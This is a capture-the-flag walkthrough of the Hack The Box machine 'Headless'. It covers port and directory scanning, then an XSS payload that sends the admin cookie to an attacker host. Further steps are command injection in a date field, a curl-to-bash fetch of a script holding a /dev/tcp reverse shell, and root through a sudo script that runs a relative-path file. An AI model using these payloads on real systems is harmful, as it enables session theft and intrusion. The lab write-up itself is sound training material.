 ## Headless

You can find the machine [here](https://app.hackthebox.com/machines/Headless).
During all this writeup, I'll be using the variable `$TARGET_IP` as the machine IP address, and `$ATTACKER_IP` as the attacker IP address (us).

## Step 1 - Recognition

First of all, we will do some recognition using nmap without any flags to quickly find out which ports are open :
```bash
$ nmap <machine_ip>
Starting Nmap 7.94 ( <https://nmap.org> ) at 2024-04-10 16:10 CEST
Nmap scan report for <machine_ip>
Host is up (0.024s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp

Nmap done: 1 IP address (1 host up) scanned in 0.75 seconds
```

We can see that the port 5000 is open. With the flag `-sV` we can detect that this is a website :
![image](assets/screenshot_1.png)

We use gobuster to detect any subdirectories on this website :
```bash
$ gobuster dir -u "http://${TARGET_IP}:5000/" -w ~/HackTheBox/SecLists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     <http://10.10.11.8:5000/>
[+] Method:                  GET
[+] Threads:                 120
[+] Wordlist:                /home/l1x/HackTheBox/SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/dashboard            (Status: 500) [Size: 265]
/support              (Status: 200) [Size: 2363]
```

We found the subdirectories `/dashboard` and `/support`.
### Step 2 - Exploit phase


#### Flag user.txt
On the page `/support`, we can use a XSS Injection in the `Message` field. It will redirect us to this page :
![Untitled](assets/screenshot_2.png)

With Burp, we can edit this request so that our XSS Injection steal the administrator cookies. To do so, we first have to open an HTTP server :
```bash
python3 -m http.server 8042
```

On burp, we can edit the User-Agent field and the message with this payload :
```bash
<img src =q onerror="fetch('http://${ATTACKER_IP}$:8042/cookie='+document.cookie, {method: 'GET'})">
```
![Untitled](assets/screenshot_3.png)

At this point, we just wait a few seconds before getting the administrator cookies :
```bash
ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```

Let's go back to the `/dashboard` page :
![Untitled](assets/screenshot_4.png)

If we intercept this request with Burp, we can see that a field `date` is sent :
![Untitled](assets/screenshot_5.png)

If we edit this request by adding the payload `; ls` to the date field, we can see in the response that the command `ls` has been executed :
![Untitled](assets/screenshot_6.png)

We can run a reverse shell with a new payload :
```bash
date=2023-09-15; curl+"<your_ip>:8042/shell.sh"|bash
```
With a file named `shell.sh` :
```bash
#!/usr/bin/bash
/bin/bash -i >& /dev/tcp/<your_ip>/4444 0>&1
```

And by opening an http server on our machine, and we can get the user.txt flag.
#### Flag root.txt

With the command `sudo -l`, we can see that we can execute a binary file without password :
```bash
$ sudo -l
sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

The executable file `/usr/bin/syscheck` contains the following scripts :
```bash
$ cat /usr/bin/syscheck
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

At the end of the script, we can this this line :
```bash
./initdb.sh 2>/dev/null
```

We can create a file `initdb.sh` in a directory and paste the following payload :
```bash
cd /tmp; echo "/bin/bash" > initdb.sh && chmod a+x initdb.sh
```

Then by excecuting the file `/usr/bin/syscheck` with sudo, we can have a shell as `root` :
```bash
$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 1.6G
System load average:  1.02, 0.61, 0.36
Database service is not running. Starting it...
whoami
root
cd /root; cat root.txt
4ea63b045a81be797cb1658d476aec31
```
